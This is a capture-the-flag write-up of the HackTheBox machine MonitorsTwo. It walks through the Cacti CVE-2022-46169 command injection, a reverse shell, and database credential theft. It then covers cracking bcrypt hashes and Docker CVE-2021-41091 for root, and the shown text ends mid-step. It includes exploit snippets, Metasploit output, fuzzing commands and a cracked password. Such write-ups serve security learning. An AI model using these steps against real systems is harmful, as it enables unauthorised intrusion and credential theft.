





# HTB: MonitorsTwo

[htb-monitorstwo](/tags#htb-monitorstwo ) [hackthebox](/tags#hackthebox )
[ctf](/tags#ctf ) [nmap](/tags#nmap ) [ubuntu](/tags#ubuntu )
[cacti](/tags#cacti ) [cve-2022-46169](/tags#cve-2022-46169 ) [command-
injection](/tags#command-injection ) [metasploit](/tags#metasploit )
[wfuzz](/tags#wfuzz ) [burp-repeater](/tags#burp-repeater ) [burp](/tags#burp
) [docker](/tags#docker ) [john](/tags#john )
[cve-2021-41091](/tags#cve-2021-41091 ) [cve-2021-41103](/tags#cve-2021-41103
) [htb-monitors](/tags#htb-monitors )  
  
Sep 2, 2023

HTB: MonitorsTwo

MonitorsTwo starts with a Cacti website (just like Monitors). There’s a
command injection vuln that has a bunch of POCs that don’t work as of the time
of MonitorsTwo’s release. I’ll show why, and exploit it manually to get a
shell in a container. I’ll pivot to the database container and crack a hash to
get a foothold on the box. For root, I’ll exploit a couple of Docker CVEs that
allow for creating a SetUID binary inside the container that I can then run as
root on the host.

## Box Info

Name | [MonitorsTwo](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fmonitorstwo)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fmonitorstwo)  
---|---  
Release Date | [29 Apr 2023](https://twitter.com/hackthebox_eu/status/1651609674204979200)  
Retire Date | 02 Sep 2023  
OS | Linux   
Base Points | Easy [20]  
Rated Difficulty |   
Radar Graph |   
 | 00:09:19[ szymex73](https://app.hackthebox.com/users/139466)  
  
 | 00:23:06[ Ziemni](https://app.hackthebox.com/users/12507)  
  
Creator | [ TheCyberGeek](https://app.hackthebox.com/users/114053)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.211
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-04-28 18:00 EDT
    Nmap scan report for 10.10.11.211
    Host is up (0.088s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 7.82 seconds
    oxdf@hacky$ nmap -p 22,80 -sCV 10.10.11.211
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-04-28 18:00 EDT
    Nmap scan report for 10.10.11.211
    Host is up (0.092s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Login to Cacti
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 11.42 seconds
    
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) version, the host is likely running Ubuntu 20.04 focal.

### Website - TCP 80

#### Site

Must like the original [Monitors box](/2021/10/09/htb-monitors.html#cacti),
the site is an instance of Cacti, a network graphing tool:

#### Tech Stack

Cacti is a PHP application ([source code on
GitHub](https://github.com/Cacti/cacti)). It’s version 1.2.22 according to the
footer under the login form. I could try busting the site, but the source
gives the locations of all the pages if I want/need them.

## Shell as www-data in Container

### Identify Vulnerability

Searching for “Cacti 1.2.22 exploit” identifies CVE-2022-46169, a command
injection vulnerability in this version of Cacti:

### Vulnerability Details

[This post](https://defense.one/d/62-unauthenticated-rce-in-cacti-
cve-2022-46169) does a nice job breaking down the vulnerability in detail. It
shows how to set up your own lab and then explains what’s happening. There’s a
command injection in a GET parameter sent to `remote_agent.php`. That page
takes four arguments - `action`, `host_id`, `local_data_ids[]`, and
`poller_id`. Another great article is from
[SonarSource](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-
code-execution/).

The first thing is to bypass the authentication. The check looks at the
`$client_addr` to see that it’s in the DB as allowed to make these queries.
The challenge is that it looks in a bunch of user-controlled HTTP headers
before getting the `REMOTE_ADDR`, and breaks when it finds one. So by setting
the HTTP header `X-FORWARDED-FOR: 127.0.0.1`, I’m allowed to continue.

The injection is in `poller_id`, but in order to reach that point, I’ll need
to get a valid `host_id` and `local_data_ids`. Most exploit script will brute
force these. For example, in [this
one](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit) has a
function to handle this:

    
    
    def bruteForce():
        # brute force to find host id and local data id
        for i in range(1, 5):
            for j in range(1, 10):
                vulnIdURL = f"{vulnURL}?action=polldata&poller_id=1&host_id={i}&local_data_ids[]={j}"
                result = requests.get(vulnIdURL, headers=header)
        
                if result.text != "[]":
                    # print(result.text)
                    rrdName = result.json()[0]["rrd_name"]
                    if rrdName == "polling_time" or rrdName == "uptime":
                        return True, i, j
    
        return False, -1, -1
    

It’s looking for `rrdName` to be either “polling_time” or “uptime”. That
matches what I see in the SonarSource post:

> This means that attackers can leverage the `poller_id` parameter to inject
> an arbitrary command when an item with the `POLLER_ACTION_SCRIPT_PHP` action
> exists. This is very likely on a productive instance because this action is
> added by some predefined templates like `"Device - Uptime"` or `"Device -
> Polling Time"`.
>
> The attacker must provide the corresponding id to make the database query
> return such an item.

### Exploit

#### Failures

When MonitorsTwo released, there were a bunch of POC scripts on GitHub for
this vulnerability, and many of them don’t work here. For example, at the time
of release for MonitorsTwo, [this
one](https://github.com/N1arut/CVE-2022-46169_POC) doesn’t work on this
target. It’s because when it does the brute force, it is looking for `words`
that includes `polling_time` and some others, but not `uptime`:

    
    
    HEADER = add_header(URL)
    words = ["cpu","cmd.php","polling_time","apache"]
    
    def finding_id(URL,HEADER):
        print("[*] Brute-Forcing Process Is Running ...")
        last_url = None
        for id in range(1,11):
            for item in range(1,11):
                url_id = URL+f"&poller_id=1&host_id={str(id)}&local_data_ids[]={str(item)}"
                req_id = requests.get(url_id,headers=HEADER,verify=False)
                if any(x in req_id.text for x in words):
                    last_url = URL+f"&host_id={str(id)}&local_data_ids[]={str(item)}&poller_id="
                    print("[*] True Ids Founded")
                    return last_url
        print("[!] Could Not Find Specific Process")
        exit(0)
    

It turns out that `polling_time` never comes back on MonitorsTwo, and thus
this thinks it’s not vulnerable.

[This](https://github.com/sAsPeCt488/CVE-2022-46169) is another that looked
nice, but it’s only looking for `cmd.php` in the response:

    
    
    for id in range(args.n_ids):
        url = f'{args.target}/remote_agent.php'
        params = {'action': 'polldata', 'host_id': id,
                  'poller_id': payload, 'local_data_ids[]': local_data_ids}
        headers = {'X-Forwarded-For': target_ip}
    
        r = requests.get(url, params=params, headers=headers)
        if('cmd.php' in r.text):
            print(f"[+] Exploit Completed for host_id = {id}")
            break
    

It also only brute forces on `host_id`, trying all the `local_data_ids` at
once. The SonarSource article said that was possible, but I’m not sure it’s
working here.

The most interesting failure I ran into is the Metasploit module. I’ll set it
up, making sure to change the `SRVPORT` from the default 8080 (where I’ve
already got Burp listening) to something else (8000):

    
    
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options
    
    Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):
    
       Name                Current Setting  Required  Description
       ----                ---------------  --------  -----------
       HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
       LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
       Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS              10.10.11.211     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                      metasploit.html
       RPORT               80               yes       The target port (TCP)
       SSL                 false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI           /                yes       The base path to Cacti
       URIPATH                              no        The URI to use for this exploit (default is random)
       VHOST                                no        HTTP server virtual host
       X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostna
                                                      me in the poller table.
    
    
       When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                           0.0.0.0 to listen on all addresses.
       SRVPORT  8000             yes       The local port to listen on.
    
    
    Payload options (linux/x86/meterpreter/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       1   Automatic (Linux Dropper)
    

When I run this, it finds it vulnerable, sends a stager, but fails to return a
session:

    
    
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable. The target is Cacti version 1.2.22
    [*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
    [*] Enumerating local_data_id values for host_id 1
    [+] Found exploitable local_data_id 6 for host_id 1
    [*] Command Stager progress - 100.00% done (1118/1118 bytes)
    [*] Exploit completed, but no session was created.
    

The weird thing is, when I send this through Burp to see what’s happening, it
works:

    
    
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set proxies http:127.0.0.1:8080
    proxies => http:127.0.0.1:8080
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable. The target is Cacti version 1.2.22
    [*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
    [*] Enumerating local_data_id values for host_id 1
    [+] Found exploitable local_data_id 6 for host_id 1
    [*] Command Stager progress - 100.00% done (1118/1118 bytes)
    [*] Sending stage (1017704 bytes) to 10.10.11.211
    [*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.211:59692) at 2023-04-29 17:25:14 -0400
    
    meterpreter >
    

It reliably fails without the proxy, and works with it. It might make a nice
Beyond Root someday, but I can’t figure out what is happening there.

#### Manual

I can exploit this manually. If I just visit
`http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=1&poller_id=1`
in Firefox, it returns a non-authorized error:

If I submit that again, but intercept the request in Burp, and add the
`X-Forwarded-For` header like this:

The the result comes back:

I’ll use `wfuzz` to experiment with different values in `local_data_ids[0]`
and `host_id`. The default response is just `[]`, so I’ll use `--hh 2` to
filter out two character responses. If I fuzz the `host_id`, only “1” has
data:

    
    
    oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1
    Total requests: 100
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                   
    =====================================================================
    
    000000001:   200        0 L      1 W        54 Ch       "1"                                                                       
    
    Total time: 0
    Processed Requests: 100
    Filtered Requests: 99
    Requests/sec.: 0
    

When I fuzz the `local_data_ids[0]`, it seems that 1-6 return different data:

    
    
    oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1
    Total requests: 100
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000003:   200        0 L      1 W        54 Ch       "3"
    000000001:   200        0 L      1 W        54 Ch       "1"
    000000005:   200        0 L      1 W        63 Ch       "5"
    000000002:   200        0 L      3 W        78 Ch       "2"
    000000006:   200        0 L      1 W        55 Ch       "6"
    000000004:   200        0 L      1 W        66 Ch       "4"                                                                       
    
    Total time: 8.803886
    Processed Requests: 100
    Filtered Requests: 94
    Requests/sec.: 11.35861
    

I can take this request over to Repeater and play with it. I can actually
submit all six in one request:

`rrd_name` gives the template, and uptime is (`local_data_id` of 6) is one
that is mentioned as vulnerable.

I’ll add the injection to the `poller_id` GET parameter. A `sleep 5` is a safe
way to check that it’s working:

The data is the same, but instead of 255 millis like in the previous, this one
is 5,259, about five seconds longer!

I’ll change the parameter from `sleep` to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), URL-encode it, and send:

At `nc`, I get a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.211 57164
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@50bca5e748b0:/var/www/html$ 
    

I’ll upgrade my shell using the [stty /
script](https://www.youtube.com/watch?v=DqE6DxqJg8Q) trick:

    
    
    www-data@50bca5e748b0:/var/www/html$ script /dev/null -c bash        
    Script started, output log file is '/dev/null'.                      
    www-data@50bca5e748b0:/var/www/html$ ^Z                              
    [1]+  Stopped                 nc -lnvp 443                           
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443                                                         
                reset                                                    
    reset: unknown terminal type unknown                                 
    Terminal type? screen                                                
    www-data@50bca5e748b0:/var/www/html$
    

## Shell as marcus

### Enumeration

#### Docker

This is a stripped down host, and not the one with the outward facing IP of
10.10.11.211. It seems like a Docker container:

  * The hostname is just random hex, `50bca5e748b0`.
  * Command s like `ip`, `ifconfig`, and `ping` are not installed.
  * The IP is 172.19.0.3 (as seen in `/proc/net/fib_trie`).
  * There’s a `.dockerenv` file in `/`.

#### Web

Cacti is homed in `/var/www/html`:

    
    
    www-data@50bca5e748b0:/var/www/html$ ls           
    CHANGELOG                   cli                        graph_templates.php         managers.php            rrdcleaner.php
    LICENSE                     clog.php                   graph_templates_inputs.php  mibs                    script_server.php
    README.md                   clog_user.php              graph_templates_items.php   permission_denied.php   scripts
    about.php                   cmd.php                    graph_view.php              plugins                 service
    aggregate_graphs.php        cmd_realtime.php           graph_xport.php             plugins.php             service_check.php
    aggregate_items.php         color.php                  graphs.php                  poller.php              settings.php
    aggregate_templates.php     color_templates.php        graphs_items.php            poller_automation.php   sites.php
    auth_changepassword.php     color_templates_items.php  graphs_new.php              poller_boost.php        snmpagent_mibcache.php
    auth_login.php              data_debug.php             help.php                    poller_commands.php     snmpagent_mibcachechild.php
    auth_profile.php            data_input.php             host.php                    poller_dsstats.php      snmpagent_persist.php
    automation_devices.php      data_queries.php           host_templates.php          poller_maintenance.php  spikekill.php
    automation_graph_rules.php  data_source_profiles.php   images                      poller_realtime.php     templates_export.php
    automation_networks.php     data_sources.php           include                     poller_recovery.php     templates_import.php
    automation_snmp.php         data_templates.php         index.php                   poller_reports.php      tree.php
    automation_templates.php    docs                       install                     poller_spikekill.php    user_admin.php
    automation_tree_rules.php   formats                    lib                         pollers.php             user_domains.php
    boost_rrdupdate.php         gprint_presets.php         link.php                    remote_agent.php        user_group_admin.php
    cache                       graph.php                  links.php                   reports_admin.php       utilities.php
    cacti.sql                   graph_image.php            locales                     reports_user.php        vdef.php
    cactid.php                  graph_json.php             log                         resource
    cdef.php                    graph_realtime.php         logout.php                  rra
    

The config is in `include/config.php`. The only part of the config that isn’t
commented out is the database stuff:

    
    
    $database_type     = 'mysql';
    $database_default  = 'cacti';
    $database_hostname = 'db';
    $database_username = 'root';
    $database_password = 'root';
    $database_port     = '3306';
    $database_retries  = 5;
    $database_ssl      = false;
    $database_ssl_key  = '';
    $database_ssl_cert = '';
    $database_ssl_ca   = '';
    $database_persist  = false;
    

The database is MySQL, and it’s running on another host named `db`.

#### DB

I’ll connect to the DB using the information from the config:

    
    
    www-data@50bca5e748b0:/var/www/html$ mysql -h db -u root -proot cacti
    ...[snip]...
    MySQL [cacti]>
    

There’s a lot of tables in the Cacti DB:

    
    
    MySQL [cacti]> show tables;                                          
    +-------------------------------------+
    | Tables_in_cacti                     |
    +-------------------------------------+
    | aggregate_graph_templates           |
    | aggregate_graph_templates_graph     |
    | aggregate_graph_templates_item      |
    ...[snip]...
    | user_auth                           |
    | user_auth_cache                     |
    | user_auth_group                     |
    | user_auth_group_members             |
    | user_auth_group_perms               |
    | user_auth_group_realm               |
    | user_auth_perms                     |
    | user_auth_realm                     |
    | user_domains                        |
    | user_domains_ldap                   |
    | user_log                            |
    | vdef                                |
    | vdef_items                          |
    | version                             |
    +-------------------------------------+
    111 rows in set (0.001 sec)
    

`user_auth` sounds like where I might find hashes, and I do:

    
    
    MySQL [cacti]> describe user_auth;
    +------------------------+-----------------------+------+-----+---------+----------------+
    | Field                  | Type                  | Null | Key | Default | Extra          |
    +------------------------+-----------------------+------+-----+---------+----------------+
    | id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
    | username               | varchar(50)           | NO   | MUL | 0       |                |
    | password               | varchar(256)          | NO   |     |         |                |
    | realm                  | mediumint(8)          | NO   | MUL | 0       |                |
    | full_name              | varchar(100)          | YES  |     | 0       |                |
    | email_address          | varchar(128)          | YES  |     | NULL    |                |
    | must_change_password   | char(2)               | YES  |     | NULL    |                |
    | password_change        | char(2)               | YES  |     | on      |                |
    | show_tree              | char(2)               | YES  |     | on      |                |
    | show_list              | char(2)               | YES  |     | on      |                |
    | show_preview           | char(2)               | NO   |     | on      |                |
    | graph_settings         | char(2)               | YES  |     | NULL    |                |
    | login_opts             | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_graphs          | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_trees           | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_hosts           | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_graph_templates | tinyint(3) unsigned   | NO   |     | 1       |                |
    | enabled                | char(2)               | NO   | MUL | on      |                |
    | lastchange             | int(11)               | NO   |     | -1      |                |
    | lastlogin              | int(11)               | NO   |     | -1      |                |
    | password_history       | varchar(4096)         | NO   |     | -1      |                |
    | locked                 | varchar(3)            | NO   |     |         |                |
    | failed_attempts        | int(5)                | NO   |     | 0       |                |
    | lastfail               | int(10) unsigned      | NO   |     | 0       |                |
    | reset_perms            | int(10) unsigned      | NO   |     | 0       |                |
    +------------------------+-----------------------+------+-----+---------+----------------+
    25 rows in set (0.002 sec)
    MySQL [cacti]> select username,password from user_auth;
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
    | guest    | 43e9a4ab75570f5b|               
    | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
    +----------+--------------------------------------------------------------+
    3 rows in set (0.001 sec)  
    

### Crack Hashes

I’ll drop these into a file and try to crack them. `hashcat` is slow on my
setup with brcypt, but `john` breaks marcus’ hash relatively quickly:

    
    
    oxdf@hacky$ /opt/john/run/john hashes --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    funkymonkey      (marcus) 
    

### SSH

marcus reuses that password for the host, and it works over SSH:

    
    
    oxdf@hacky$ sshpass -p 'funkymonkey' ssh marcus@10.10.11.211
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)
    ...[snip]...
    marcus@monitorstwo:~$
    

And there’s `user.txt`:

    
    
    marcus@monitorstwo:~$ cat user.txt
    ac168410************************
    

## Shell as root

### Enumeration

#### Deadends

The host is relatively empty. There’s no other users besides marcus. Nothing
interesting in `/opt` or elsewhere on the filesystem.

I’ll upload `pspy` but it doesn’t show anything interesting either.

#### Docker

At this point, my thinking is that perhaps there’s another Docker container
running. I’m already aware of the Cacti container and the MySQL container.

marcus doesn’t have permissions to interact with `docker`:

    
    
    marcus@monitorstwo:/var/www$ docker ps
    Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get "http://%2Fvar%2Frun%2Fdocker.sock/v1.24/containers/json": dial unix /var/run/docker.sock: connect: permission denied
    

marcus can at least look at the version of Docker:

    
    
    marcus@monitorstwo:/var/www$ docker --version
    Docker version 20.10.5+dfsg1, build 55c4c88
    

### CVE-2021-41091 / CVE-2021-41103

#### Identify

This is an old version of Docker, [released 2 March
2021](https://docs.docker.com/engine/release-notes/20.10/#20105). Looking up
at the releases after that one, there’s a few CVEs noted in the release notes.
For example, in 20.10.6:

Scrolling up, I’ll note down a handful of CVEs patched in the releases that
followed the current version. It’s useful to read each description and
potentially some other posts about the vulnerability to triage if the
vulnerability is something I can exploit in this case.

  * CVE-2021-21334 fixed in 20.10.6 - Has to do with leaking environment variables. [The Security notes](https://github.com/containerd/containerd/security/advisories/GHSA-6g2q-w5j3-fwh4) say that “If you are not launching multiple containers or Kubernetes pods from the same image which have different environment variables, you are not vulnerable to this issue.” Doesn’t sound useful for me.
  * CVE-2021-30465 fixed in 20.10.7 - The [description](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-30465) of this one says that an attacker “must be able to create multiple containers with a fairly specific mount configuration”. Doesn’t sound useful for me.
  * CVE-2021-41092 fixed in 20.10.9 - [Issue](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41092) in Docker CLI (command line interface) having to do with the config file. Not relevant here.
  * CVE-2021-41089 fixed in 20.10.9 - The [description](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41089) says an attacker can `docker cp` files into a specifically crafted container resulting in file permissions changed on the host. I don’t have access to `docker cp` on this host, so not much I can do here.
  * CVE-2021-41091 fixed in 20.10.9 - [This one](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41091) is interesting. “A bug was found in Moby (Docker Engine) where the data directory (typically `/var/lib/docker`) contained subdirectories with insufficiently restricted permissions, allowing otherwise unprivileged Linux users to traverse directory contents and execute programs. When containers included executable programs with extended permission bits (such as `setuid`), unprivileged Linux users could discover and execute those programs.” I’ll go into this more below.
  * CVE-2021-36221 / CVE-2021-39293 fixed in 20.10.9 - Both fixes in Go runtime, which doesn’t seem relevant here.
  * CVE-2021-41103 fixed in 20.10.9 - Same as CVE-2021-41103, but [issue](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41103) in `containerd` rather than Moby.

#### Details

Some searching for “CVE-2021-41091 exploit” leads to [this
article](https://www.cyberark.com/resources/threat-research-blog/how-docker-
made-me-more-capable-and-the-host-less-secure) from CyberArk. The issue comes
when Docker changes the permissions to the directory on the host that is
mapped into the container from 700 to 701. 700 means that only the owner
(root) can read/write/execute. 701 allows any user to also execute!

This means that a low privilege user on the host can run files in the
container. Why is that bad? If the container has a file owned by root and with
the SetUID bit on, then that low priviliege user can run it as root on the
host.

### Enumerating Docker

From the host, I’m able to see the directory Docker is using in the container
with the `mount` command:

    
    
    marcus@monitorstwo:~$ mount
    sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
    proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
    udev on /dev type devtmpfs (rw,nosuid,noexec,relatime,size=1966928k,nr_inodes=491732,mode=755)
    devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
    tmpfs on /run type tmpfs (rw,nosuid,nodev,noexec,relatime,size=402608k,mode=755)
    /dev/sda2 on / type ext4 (rw,relatime)
    ...[snip]...
    overlay on /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged type overlay (rw,relatime,lower
    dir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NOB:/var/lib/docker/overlay2/l/
    3JPYTR54WWK2EX6DJ7PMMAVPQQ:/var/lib/docker/overlay2/l/YWET34PNBXR53LJY2XX7ZIXHLS:/var/lib/docker/overlay2/l/IM3MC55GS7JDB4D2EYTLAZAYLJ:/var
    /lib/docker/overlay2/l/6TLSBQSLTGP74QVFJVO2GOHLHL:/var/lib/docker/overlay2/l/OOXBDBKU7L25J3XQWTXLGRF5VQ:/var/lib/docker/overlay2/l/FDT56KIE
    TI2PMNR3HGWAZ3GIGS:/var/lib/docker/overlay2/l/JE6MIEIU6ONHIWNBG36DJGDNEY:/var/lib/docker/overlay2/l/IAY73KSFENK4CC5DX5L2HCRFQJ:/var/lib/doc
    ker/overlay2/l/UDDRFLWFZYH6I5EUDCDWCOPSZX:/var/lib/docker/overlay2/l/5MM772DWMOBQZAEA4J34QYSZII,upperdir=/var/lib/docker/overlay2/4ec09ecfa
    6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/diff,workdir=/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cd
    af065e8bb83007effec/work,xino=off) 
    shm on /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm type tmpfs (rw,nosuid,nodev,n
    oexec,relatime,size=65536k)
    nsfs on /run/docker/netns/9f53a565e7ed type nsfs (rw)
    overlay on /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged type overlay (rw,relatime,lower
    dir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/overlay2/l/
    CXAW6LQU6QOKNSSNURRN2X4JEH:/var/lib/docker/overlay2/l/YWNFANZGTHCUIML4WUIJ5XNBLJ:/var/lib/docker/overlay2/l/JWCZSRNDZSQFHPN75LVFZ7HI2O:/var
    /lib/docker/overlay2/l/DGNCSOTM6KEIXH4KZVTVQU2KC3:/var/lib/docker/overlay2/l/QHFZCDCLZ4G4OM2FLV6Y2O6WC6:/var/lib/docker/overlay2/l/K5DOR3JD
    WEJL62G4CATP62ONTO:/var/lib/docker/overlay2/l/FGHBJKAFBSAPJNSTCR6PFSQ7ER:/var/lib/docker/overlay2/l/PDO4KALS2ULFY6MGW73U6QRWSS:/var/lib/doc
    ker/overlay2/l/MGUNUZVTUDFYIRPLY5MR7KQ233:/var/lib/docker/overlay2/l/VNOOF2V3SPZEXZHUKR62IQBVM5:/var/lib/docker/overlay2/l/CDCPIX5CJTQCR4VY
    UUTK22RT7W:/var/lib/docker/overlay2/l/G4B75MXO7LXFSK4GCWDNLV6SAQ:/var/lib/docker/overlay2/l/FRHKWDF3YAXQ3LBLHIQGVNHGLF:/var/lib/docker/over
    lay2/l/ZDJ6SWVJF6EMHTTO3AHC3FH3LD:/var/lib/docker/overlay2/l/W2EMLMTMXN7ODPSLB2FTQFLWA3:/var/lib/docker/overlay2/l/QRABR2TMBNL577HC7DO7H2JR
    N2:/var/lib/docker/overlay2/l/7IGVGYP6R7SE3WFLYC3LOBPO4Z:/var/lib/docker/overlay2/l/67QPWIAFA4NXFNM6RN43EHUJ6Q,upperdir=/var/lib/docker/ove
    rlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b
    73d04c9ad6325201c85f73fdba372cb2f1/work,xino=off)
    shm on /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm type tmpfs (rw,nosuid,nodev,n
    oexec,relatime,size=65536k)
    ...[snip]...
    

There are two of these “overlay” mounts, as there are two containers running.

Looking in one of them, I’ll see the container filesystem root:

    
    
    marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
    bin   dev                         entrypoint.sh  home  lib64  mnt  proc  run   srv  tmp  var
    boot  docker-entrypoint-initdb.d  etc            lib   media  opt  root  sbin  sys  usr
    

It looks like the second one is the Cacti container:

    
    
    marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/var/www/html/
    ls: cannot access '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/var/www/html/': No such file or directory
    marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/var/www/html
    about.php                   clog_user.php              graphs.php                  mibs                    rrdcleaner.php
    aggregate_graphs.php        cmd.php                    graph_templates_inputs.php  permission_denied.php   scripts
    aggregate_items.php         cmd_realtime.php           graph_templates_items.php   plugins                 script_server.php
    aggregate_templates.php     color.php                  graph_templates.php         plugins.php             service
    ...[snip]...
    

I can create a file in the container:

    
    
    www-data@50bca5e748b0:/tmp$ touch 0xdf
    

And it is there on the host:

    
    
